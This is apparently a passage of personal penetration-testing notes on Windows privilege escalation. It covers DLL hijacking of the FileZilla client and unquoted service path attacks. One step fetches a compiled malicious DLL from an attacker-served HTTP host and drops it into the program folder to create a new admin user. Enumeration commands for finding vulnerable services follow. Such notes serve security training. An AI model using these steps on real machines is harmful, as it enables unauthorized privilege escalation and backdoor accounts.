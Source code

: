 ```C++
    return TRUE;
}
```

Cross-compiling this with #mingw-64 

`x86_64-w64-mingw32-gcc TextShaping.cpp --shared -o TextShaping.dll`

`--shared` - specifies to build a DLL

Start #pythonhttpserver to serve up the DLL

Download compiled DLL with #iwr 

`iwr -uri http://192.168.48.3/TextShaping.dll -OutFile 'C:\FileZilla\FileZilla FTP Client\TextShaping.dll'`

The app needs to be started by an admin to create our new user.

### Unquoted Service Paths

Use this attack when we have Write permissions to a service's main directory or subdirectories but cannot replace files. 

If the Windows service path mapping to service binary contains one or more spaces and isn't quoted, we can insert a malicious binary and hijack execution flow.

Example of how Windows will try to locate the correct path of an unquoted service

```
C:\Program.exe
C:\Program Files\My.exe
C:\Program Files\My Program\My.exe
C:\Program Files\My Program\My service\service.exe
```

##### Scenario

Open PowerShell and enumerate running and stopped services

`Get-CimInstance -ClassName win32_service | Select Name,State,PathName`

Result:

```
GammaService                             Stopped C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe
```

The unquoted service binary path contains multiple spaces.

More effective tool to check for spaces and missing quotes is #wmic

`wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """`

Result:

```
GammaService                               C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe
```
